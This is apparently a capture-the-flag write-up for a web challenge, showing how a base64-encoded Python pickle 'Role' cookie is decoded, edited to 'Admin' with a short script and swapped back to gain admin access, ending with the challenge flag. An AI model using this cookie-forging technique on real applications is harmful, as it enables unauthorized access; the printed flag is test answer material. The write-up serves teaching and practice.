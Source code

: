 # Web/GreenSalty

### Challenge

- Category: Web
- Author: iLoop
- Description: Some like this on their burger.... People are strange, just ask Pondus
- Site: greensalt.io.ept.gg

### Writeup by
- hag
---



## Site

When we go to `greensalt.io.ept.gg` we find a login page.

![](01.png "")

After registering a new user with `a` as username and password, we can log in.

![](02.png "")

We look around the site and find the settings page which we can't access.

![](03.png "")


## Cookies and Session

Taking a look at the cookies in the developer tools we see the folling:

![](04.png "")

The `Role`-cookie seems interesting. The cookie data looks like `base64` encoded data.

Let's decode it:

```bash
$ echo "gASVOAAAAAAAAACMA2FwcJSMCFVzZXJUeXBllJOUKYGUfZQojARyb2xllIwHRW5kVXNlcpSMBG5hbWWUjAFhlHViLg==" | base64 -d
��8�app�UserType���)��}�(�role��EndUser��name��a�ub.
```

We can see our `role` and `name` in there; `EndUser` and `a`,

This looks like some serialized data. Looking at the `server`-header we find `Werkzeug/2.0.1 Python/3.8.12`. After doing some research on serialization in Python and using the challenge description hint, I think the data has been serialized using `pickle`.

We most likely have an `Insecure Deserialization` vulnerability in this app.


## Python script (`app.py`)

By looking at the serialized data we can see that the username and role is serialized from a type looking something like this:

```python
class UserType(object):
	role = ""
	user = ""
```

Let's create a script and see if we can deserialize the `role`-cookie and modify it.

```python
import pickle
import base64

# UserType type that matches serialized data
class UserType(object):
	role = ""
	user = ""

# Decode base64 data in cookie
cookie_role = "gASVOAAAAAAAAACMA2FwcJSMCFVzZXJUeXBllJOUKYGUfZQojARyb2xllIwHRW5kVXNlcpSMBG5hbWWUjAFhlHViLg=="
b = base64.b64decode(cookie_role)

# Deserialize using pickle
pd = pickle.loads(b)
print(pd)

# Change role to Admin
pd.role = "Admin"

# Re-serialize using pickle
pdd = pickle.dumps(pd)

# Output serialized data and base64 encoded serialized data
print(pdd)
print(base64.b64encode(pdd))
```

Now let's run it.

## Python script output

```bash
$ python3 app.py
<app.UserType object at 0x7ff44107e250>
b'\x80\x04\x956\x00\x00\x00\x00\x00\x00\x00\x8c\x03app\x94\x8c\x08UserType\x94\x93\x94)\x81\x94}\x94(\x8c\x04role\x94\x8c\x05Admin\x94\x8c\x04name\x94\x8c\x01a\x94ub.'
b'gASVNgAAAAAAAACMA2FwcJSMCFVzZXJUeXBllJOUKYGUfZQojARyb2xllIwFQWRtaW6UjARuYW1llIwBYZR1Yi4='
<app.UserType object at 0x7ff441197dc0>
b'\x80\x04\x956\x00\x00\x00\x00\x00\x00\x00\x8c\x03app\x94\x8c\x08UserType\x94\x93\x94)\x81\x94}\x94(\x8c\x04role\x94\x8c\x05Admin\x94\x8c\x04name\x94\x8c\x01a\x94ub.'
b'gASVNgAAAAAAAACMA2FwcJSMCFVzZXJUeXBllJOUKYGUfZQojARyb2xllIwFQWRtaW6UjARuYW1llIwBYZR1Yi4='
```

Let's take the new cookie data; `gASVNgAAAAAAAACMA2FwcJSMCFVzZXJUeXBllJOUKYGUfZQojARyb2xllIwFQWRtaW6UjARuYW1llIwBYZR1Yi4=` and replace the cookie in the developer tools.

![](05.png "")

Now click `Settings` again. We can see the follwing at `https://greensalt.io.ept.gg/settings.html`:

![](06.png "")

## Flag

`EPT{Plant1ng_Gr33n_Th1ngs}`
